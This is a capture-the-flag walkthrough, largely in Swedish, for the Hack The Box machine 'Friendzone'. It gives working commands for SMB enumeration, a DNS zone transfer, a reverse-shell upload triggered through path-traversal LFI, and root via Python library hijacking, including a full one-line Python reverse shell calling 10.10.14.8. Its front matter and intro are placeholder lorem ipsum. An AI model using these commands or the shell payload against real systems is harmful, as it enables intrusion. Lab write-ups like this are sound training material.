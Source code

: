 ```yaml
---
layout: single
title: Friendzone - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-17
classes: wide
header:
  teaser: /assets/images/htb-writeup-friendzone/friendzone_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-friendzone/friendzone_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


### USER ###

1. Enum standard + extra smb
   nmap -sC -sV -O 10.10.10.123
   nmap --script=smb-enum-shares 10.10.10.123 (visar shares, rättigheter samt path)

2. Ladda hem cred.txt
   smbclient //10.10.10.123/general
   get creds.txt

3. Zone Transfer för att få fram subdomäner
   dig axfr friendzone.red @10.10.10.123

4. Lägg in alla subdomäner i /etc/hosts
   10.10.10.123 friendzone.red
   10.10.10.123 administrator1.friendzone.red
   10.10.10.123 hr.friendzone.red
   10.10.10.123 uploads.friendzone.red

5. Logga in på administrator1 med creds från steg 2

6. Ladda upp reverse shell i SMB map med write-rättigheter (Development)
   smbclient //10.10.10.123/Development
   put r

7. Slå igång nc för att ta emot reverse
   nc -lnvp 4455

8. LFI via dashboard.php för att anropa reverse shell
   Från smb-enum-shares i steg 1 fick vi fram path till Development (/etc/Development), anropa reverse shell:
   dashboard.php?image_id=a.jpg&pagename=../../../../../etc/Development/r

   NOTE1:
   Kan vara värt att ladda upp en test fil innehållande "<?php phpinfo(); ?>" (utan "") för att hitta path till filerna

   NOTE2:
   Anropet kommer se ut såhär: <?php “include/”.include($_GET['pagename'].“.php”); ?>
   Döp INTE din fil till .php då anropet blir ($_GET['../../../../etc/development/x.PHP'].“.php”); ?> och kommer inte lira
   (dubbel .php-filändelse)

9. Plocka user via /home/friend/user.txt

10. Hämta SSH-creds
    ls /var/www/htm/mysql_data.conf
    (f*****:A*************)

### ROOT ###

1. SSH in till boxen
   ssh friend@10.10.10.123

2. Kolla på tjänster som körs med pspy
   2019/06/18 16:24:01 CMD: UID=0    PID=4059   | /bin/sh -c /opt/server_admin/reporter.py 
   2019/06/18 16:24:01 CMD: UID=0    PID=4058   | /bin/sh -c /opt/server_admin/reporter.py 
   2019/06/18 16:24:01 CMD: UID=0    PID=4057   | /usr/sbin/CRON -f 

3. Undersök scriptet reporter.py och se att 'import os' används

4. Import os körs via /usr/lib/python2.7/os.py vilket har +r+w rättigheter (skulle se detta via lse med -l1 flaggan)
   Hittade denna info via kommandot: python -c 'import sys; print "\n".join(sys.path)'
   Samt läste om det på: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

5. Editera os.py och lägg till one-line python reverse shell längst ner, och vänta på att cron triggar det
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

6. Starta nc -lvnp 4488 och plocka root.txt
